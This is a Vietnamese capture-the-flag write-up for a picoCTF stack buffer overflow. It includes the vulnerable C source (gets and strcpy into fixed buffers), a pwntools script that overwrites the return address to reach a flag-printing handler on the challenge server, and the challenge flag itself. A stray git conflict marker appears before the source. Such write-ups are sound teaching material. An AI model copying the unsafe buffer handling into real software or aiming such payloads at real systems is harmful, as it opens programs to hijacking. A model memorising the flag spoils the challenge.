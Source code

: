 **#1. Tìm lỗi**

   Ta có file source như sau:

<<<<<<< HEAD
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **aragv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

   Đọc qua file source thì ta thấy có câu lệnh gets và hàm sigsegv_handler(hàm lấy flag) -> Nghĩ ngay đến lỗi bof
   Sử dụng lệnh 'checksec' thì ta thấy CANARY đang ở trạng thái disabled -> Có thể khai thác qua lỗi bof

   ![checksec.png](photo/checksec.png)

**2. Ý tưởng**

   Chúng ta sẽ nhập tràn biến buf1 nhờ lệnh gets đến ret rồi chèn địa chỉ hàm sigsegv_handler vào

**3. Viết script**

   Sử dụng lệnh 'file' kiểm tra file thực thi

   ![file.png](photo/file.png)

   Ta thấy là file 32bit

   ![buf1.png](photo/buf1.png)

   Địa chỉ hiện tại của buf1 là: ebp - 0x74 -> Khoảng cách từ buf1 đến ret là: 0x74 + 0x4 = 120

   ![function_flag.png](photo/function_flag.png)

   Ta có địa chỉ hàm sigsegv_handler là: 0x5655630d
   Vậy ta có script như sau: 

```
from pwn import *

r = remote("saturn.picoctf.net", 65355)

payload = b'a'*120 + p32(0x5655630d)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

   ![flag.png](photo/flag.png)

   Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}